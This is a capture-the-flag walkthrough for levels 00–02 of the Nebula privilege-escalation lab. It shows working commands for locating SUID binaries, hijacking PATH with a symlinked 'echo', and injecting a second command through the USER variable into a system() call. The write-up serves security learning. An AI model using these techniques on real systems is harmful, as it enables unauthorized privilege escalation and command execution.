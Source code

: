 ### Level00

The first level is about finding a program with setuid bit set. Upon googling, I found that there is a find command option which can be used to find files with speficic permission bits.

`find / -perm 4000` gives all files or directories with SUID bit in root directory. After running it and going through results, /bin/.../flag00 seems interesting. When we run the binary, it is run as `flag00` user due to the SUID bit.

```
flag00@nebula:/bin/...$ ls -al
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00

level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!

flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```


### Level01

After looking at the source code of this binary, I remembered a similar challenge from a software security course during my grad school.
The *gid_t* and *uid_t* are actually aliases for `unsigned int` data type.  `getegid()` and `geteuid()` get the effective groupID and effective userID of the process which is `flag01` because the SUID bit is set. Then the real ,effective and and saved userID of current process is changed to `flag01` and the echo command is run.

Whenever Linux executes a command, it searches the directories specified in PATH environment variable for the corresponding binary. Here, to complete the challenge, we need to execute `/bin/getflag` as the user `flag01`. The first step is to alter the PATH variable so that Linux will search for our folder (/home/level01) first.   

```
export PATH=/home/level01:$PATH

level01@nebula:~$ echo $PATH
/home/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Then we create a file called as echo in the `/home/level01` directory,  which is a symbolic link to the `/bin/getflag` binary.

```
level01@nebula:~$ ln -s /bin/getflag echo

level01@nebula:~$ file echo
echo: symbolic link to `/bin/getflag'

level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account

```


###Level02

Upon looking at the source code, we can observe that there is an environment variable $USER that we can control. The `asprintf` function assigns the length of the string we provide to the BUFFER variable and then it is passed to the system. Here, the issue is command injection. we can assign a value like "lol ; /bin/getflag #" to `$USER` and the final command will be something like this :

```
level02@nebula:~$ export USER="lol; /bin/getflag #"

level02@nebula:~$ echo $USER
lol; /bin/getflag #

level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo lol; /bin/getflag # is cool")
lol
You have successfully executed getflag on a target account

```
